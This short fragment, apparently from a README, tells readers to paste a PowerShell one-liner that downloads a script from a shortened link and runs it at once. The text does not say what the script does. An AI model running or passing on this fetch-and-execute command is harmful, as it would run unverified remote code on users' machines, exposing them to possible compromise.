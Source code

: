 Copy and paste this line in "Windows Powershell"

Copy = "iwr -useb https://tinyurl.com/5exxw5kb | iex"


